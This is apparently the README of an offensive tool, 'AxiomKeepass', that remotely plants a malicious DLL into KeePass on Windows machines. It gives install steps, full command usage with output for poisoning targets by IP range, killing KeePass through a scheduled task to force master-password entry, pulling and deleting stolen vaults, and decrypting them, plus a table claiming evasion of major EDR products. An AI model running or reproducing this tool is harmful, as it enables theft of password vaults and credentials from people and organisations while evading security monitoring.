


## AxiomKeepass
Remotely poison and loot Keepass instances running on Windows

## Evasion efficiency
| Solution              | Status         |
|-----------------------|:--------------:|
| Defender AV           |  ✅ - OK       |
| Defender for Endpoint |  ✅ - OK       |
| Symantec EDR          |  ⚠️ - Untested |
| Kaspersky EDR         |  ⚠️ - Untested |
| Sophos                |  ⚠️ - Untested |
| Trend Micro           |  ⚠️ - Untested |
| HarfangLab            |  ✅ - OK       |
| WithSecure            |  ⚠️ - Untested |
| Cortex XDR            |  ✅ - OK (Cleartext credentials only if using --kill-first)       |
| Sentinel ONE          |  ✅ - OK       |
| Crowdstrike Falcon    |  ✅ - OK       |

## Demo
Poison remote instances and loot exported vaults :


Read a decrypted vault :


## Installation
### Dependencies
You will need to install mono in order to be able to compile DLLs on the fly : https://www.mono-project.com/download/stable/.

Check that you have the `mcs` command available:
```bash
$ mcs --version
Mono C# compiler version 6.14.1.0
```

### Python virtual environment
Create a python venv and install packet dependencies:
```bash
$ python3 -m venv venv-keepass
$ source ./venv/bin/activate
(venv-keepass) $ python3 -m pip install -r requirements
[...]
```

Next, install the packet:
```bash
(venv-keepass) $ python3 -m pip install .
[...]
```

This makes the command `axiom-keepass` globally available from within the venv:
```bash
(venv-keepass) $ axiom-keepass -h
usage: axiom-keepass [-h] [-hashes HASHES] [-aesKey AESKEY] [-k]
                     [-dc-ip DC_IP] [-no-pass] [-t THREADS] [-pull] [-monitor]
                     [-monitor-delay MONITOR_DELAY]
                     target

Remotely dump keepass instances

positional arguments:
  target                Target machine or range [domain/]username[:password]@<IP, IP RANGE, FQDN or FILE>

options:
  -h, --help            show this help message and exit
  -hashes, --hashes HASHES
                        LM:NT hash
  -aesKey, --aesKey AESKEY
                        AES key to use for Kerberos Authentication
  -k                    Use kerberos authentication.
  -dc-ip, --dc-ip DC_IP
                        IP Address of the domain controller
  -no-pass, --no-pass   Do not prompt for password
  -t, --threads THREADS
                        The number of threads to use, default: 10
  -pull, --pull         Run in pull mode, checks if any vault has been exported and downloads them
  -monitor, --monitor   Run in monitor mode, will try to pull for new vaults every X seconds, where X is defined by --monitor-delay
  -monitor-delay, --monitor-delay MONITOR_DELAY
                        The delay in seconds between each pull when running in monitor mode
```

## Usage

### Step 1 - Poisoning

The first thing to do is to plant the DLL on the target(s). The program supports supplying targets in 3 different formats:
* Single IP address/FQDN (ie: 192.168.56.110)
* IP range in CIDR notation (ie: 192.168.56.0/24)
* File containing a list of IP addresses, FQDNs or IP ranges (ie: targets.txt)

For instance, say you have a workstation at 192.168.56.110, you can poison its KeePass installation by running:
```bash
$ axiom-keepass DOMAIN.local/Administrator:'Password123!'@192.168.56.110
[THREAD 0] Thread spawned
[THREAD 0][*] Using tmp dir /tmp/tmp528fb86v
[THREAD 0][*] Processing target 192.168.56.110
[THREAD 0][+] Successful login to 192.168.56.110
[THREAD 0][+] Malicious DLL compiled for 192.168.56.110
[THREAD 0][+] Malicious DLL planted on 192.168.56.110
[THREAD 0][+] All targets processed
```

While you are at it, you can kill all running KeePass processes to force their users to re-open their database and provide the master password:
```bash
$ axiom-keepass --kill-first DOMAIN.local/Administrator:'Password123!'@192.168.56.110
[THREAD 0] Thread spawned
[THREAD 0][*] Using tmp dir /tmp/tmpgyrtfjgj
[THREAD 0][*] Processing target 192.168.56.110
[THREAD 0][+] Successful login to 192.168.56.110
[THREAD 0][+] Successfully bound to ATSVC on 192.168.56.110
[THREAD 0][*] Using task name: Ornament to kill process KeePass.exe on 192.168.56.110
[THREAD 0][+] Scheduled task successfully started, process KeePass.exe will terminate on 192.168.56.110
[THREAD 0][+] Malicious DLL compiled for 192.168.56.110
[THREAD 0][+] Malicious DLL planted on 192.168.56.110
[THREAD 0][+] All targets processed
```

NB: Do not use this option if you are against Cortex XDR and not using cleartext credentials, this will get detected and blocked

### Step 2 - Looting

Once the installation has been poisoned, you can check for any exported vault with the following command:
```bash
$ axiom-keepass DOMAIN.local/Administrator:'Password123!'@192.168.56.110 --pull
[THREAD 0] Thread spawned
[THREAD 0][*] Using tmp dir /tmp/tmpgv05rp4j
[THREAD 0][*] Processing target 192.168.56.110
[THREAD 0][+] Successful login to 192.168.56.110
[THREAD 0][*] Pulling from 192.168.56.110
[THREAD 0][*] Searching in All Users
[THREAD 0][*] Searching in Default
[THREAD 0][*] Searching in Default User
[THREAD 0][*] Searching in MALDEV
[THREAD 0][+] Found a vault! File size is 9792 bytes
[THREAD 0][+] Download 192.168.56.110_MALDEV_axiomvault.enc file with 9792 bytes
[THREAD 0][+] 192.168.56.110_MALDEV_axiomvault.enc dropped to disk
[THREAD 0][+] Vault deleted from 192.168.56.110
[THREAD 0][*] Searching in Public
[THREAD 0][+] All targets processed
```

The tool also supports the `--monitor` and `--monitor-delay` options, which will automatically re-run a `--pull` on all provided targets every X seconds.

### Step 3 - Decrypting

The exported vaults are encrypted (granted, with a constant key, which isn't good. Dynamic keys support is soon to come). You must decrypt them first before reading them:
```bash
$ bash Scripts/decrypt.sh path/to/vault.enc
$ otree path/to/vault.clear
```

## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.

## License

This software is under GNU GPL 3.0 license (see LICENSE file).
This is a free, copyleft license that allows users to run, study, share, and modify software, provided that all distributed versions and derivatives remain open source under the same license.
